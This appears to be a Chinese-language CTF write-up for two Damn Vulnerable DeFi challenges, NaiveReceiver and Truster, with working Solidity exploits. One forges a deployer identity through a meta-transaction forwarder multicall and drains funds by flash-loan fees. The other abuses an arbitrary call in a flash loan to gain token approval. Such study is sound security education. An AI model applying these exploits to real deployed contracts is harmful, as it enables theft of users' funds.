 # 8.30

# NaiveReceiver

题目描述

```markdown
There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract. 

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.
```

解读一下没见过的名词 meta-transaction

[[Web3 全端] Day 17 — Web3 與進階前端：Meta Transaction 免手續費交易](https://medium.com/@a00012025/web3-%E5%85%A8%E7%AB%AF-day-17-web3-%E8%88%87%E9%80%B2%E9%9A%8E%E5%89%8D%E7%AB%AF-meta-transaction-%E5%85%8D%E6%89%8B%E7%BA%8C%E8%B2%BB%E4%BA%A4%E6%98%93-395e5f72b669)

大致的想法是：

> 如果使用者想發交易卻又不想付手續費的話，有什麼可能的作法呢？一個想法是那使用者 A 只要簽名好一個「他想發 xxx 交易」的訊息就好（也就是他的「意圖」, intent），並把這個訊息交由另一個地址 B 發送交易，並透過智能合約的邏輯模擬出就像是 A 親自發出這筆交易一樣的效果，這樣就是一種 Meta Transaction 的作法了。
> 

大体的思路就是帮助receiver发起闪电贷请求，来收取用户的fee来将用户的weth转移到deployer手里，最后在通过deployer将质押的eth转移到rec

exp

```solidity
    function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint i=0; i<10; i++){
            callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(deployer)))
        );
        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player,
            address(pool),
            0,
            30000000,
            forwarder.nonces(player),
            callData,
            1 days
        );
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        require(forwarder.execute(request, signature));
    }
    }

```

# Truster

desc

```markdown
# Truster

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

```

该合约并没有按照flashloan的标准在转账后执行receiver的Onflashloan()函数，相反它提供了调用者可以通过Data自选的方法来进行，我们可以选择让flashloan合约approve我们使用它所有的代币

exp

```solidity
// SPDX-License-Identifier: MIT
// test/TrusterExploiter.sol
pragma solidity ^0.8.0;

import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {TrusterLenderPool} from "../../src/truster/TrusterLenderPool.sol";

contract TrusterExploiter{
    
    DamnValuableToken public token;
    TrusterLenderPool public pool;
    address public recovery;

    constructor(address tokenAddress, address poolAddress, address recoveryAddress){
        token = DamnValuableToken(tokenAddress);
        pool = TrusterLenderPool(poolAddress);
        recovery = recoveryAddress;
    }

    function attack() external returns(bool){
        
        uint amount = token.balanceOf(address(pool));
        require(
            pool.flashLoan(
                0,
                address(this),
                address(token),
                abi.encodeWithSignature("approve(address,uint256)", address(this), amount)
                )
            );

        require(token.transferFrom(address(pool), address(this), amount));
        require(token.transfer(recovery, amount));

        return true;
    }
}
```

```solidity
function test_truster() public checkSolvedByPlayer {
        TrusterExploiter trusterExploiter = new TrusterExploiter(address(token), address(pool), address(recovery));
        require(
            trusterExploiter.attack()
        );
    }
```